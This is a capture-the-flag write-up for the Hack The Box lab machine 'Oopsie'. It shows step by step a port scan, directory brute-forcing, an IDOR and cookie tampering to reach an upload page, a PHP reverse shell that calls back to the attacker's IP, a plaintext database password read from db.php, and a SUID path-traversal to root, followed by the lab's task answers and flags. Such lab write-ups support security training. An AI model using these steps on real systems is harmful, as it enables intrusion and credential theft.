

# Oopsie

## ip

target: 10.129.95.191

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.95.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 00:33 EST
Nmap scan report for 10.129.95.191
Host is up (0.38s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.49 seconds

```

## II. Web exploit

hidden login page: `/cdn-cgi/login`


### 1. IDOR + access control vulnerability => access upload functionality

IDOR: access `http://10.129.78.254/cdn-cgi/login/admin.php?content=accounts&id=1` => admin id = 34322


access control vulnerability:

- `http://10.129.78.254/cdn-cgi/login/admin.php?content=uploads` is blocked for guest users

  
- user role is controlled from the client side - the cookie, change the cookie and we can access the upload functionality:

  

### 2. File upload vulnerability => reverse shell

found a dir named `uploads`

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.95.191
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/02/24 00:36:17 Starting gobuster in directory enumeration mode
===============================================================
...
/uploads              (Status: 301) [Size: 318] [--> http://10.129.95.191/uploads/]
Progress: 20467 / 20470 (99.99%)
===============================================================
2023/02/24 00:49:31 Finished
===============================================================
```

upload php reverse shell:

```bash
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cat php/php-reverse-shell.php | grep 'CHANGE'
$ip = '10.10.15.248';  // CHANGE THIS
$port = 4242;       // CHANGE THIS
```

open a listening port using pwncat: `pwncat-cs --listen --port 4242`

access uploaded file: `http://10.129.95.191/uploads/php-reverse-shell.php` =>

```bash
┌──(pwncat)─(kali㉿kali)-[~]
└─$ pwncat-cs --listen --port 4242
/home/kali/Documents/learn-python/env/pwncat/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[08:32:41] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
[08:32:46] received connection from 10.129.95.191:49130                                                                                                                                                                           bind.py:84
[08:32:54] 0.0.0.0:4242: upgrading from /bin/dash to /bin/bash                                                                                                                                                                manager.py:957
[08:32:57] 10.129.95.191:49130: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$                                                                                                                                                                                                                             
(remote) www-data@oopsie:/$ whoami
www-data

```

## III. user flag

```bash
(remote) www-data@oopsie:/$ cat /home/robert/user.txt 
f2c74ee8db7983851ab2a96a44eb7981
```

## IV. source code review => robert credentials

```bash
(remote) www-data@oopsie:/$ cat var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

ssh login as robert:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh robert@10.129.78.254 
robert@oopsie:~$ 
```

## V. privilege escalation via suid => root flag

recon => found that robert is in a group named `bugtracker`:

```bash
robert@oopsie:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on oopsie.
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

find which file in group `bugtracker`:

```bash
robert@oopsie:~$ find / -group bugtracker
...
/usr/bin/bugtracker
robert@oopsie:~$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

this program has SUID bit => we can run it as root.

exploit:

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: abcdef
---------------

cat: /root/reports/abcdef: No such file or directory

robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```

## Task

Task 1: With what kind of tool can intercept web traffic?: `proxy`

Task 2: What is the path to the directory on the webserver that returns a login page?: `/cdn-cgi/login`

Task 3: What can be modified in Firefox to get access to the upload page?: `cookie`

Task 4: What is the access ID of the admin user?: `34322`

Task 5: On uploading a file, what directory does that file appear in on the server?: `/uploads`

Task 6: What is the file that contains the password that is shared with the robert user?: `db.php`

Task 7: What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?: `find`

Task 8: Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?: `root`

Task 9: What SUID stands for?: `Set owner User ID`

Task 10: What is the name of the executable being called in an insecure manner?: `cat`

Submit user flag: done

Submit root flag: done

## References
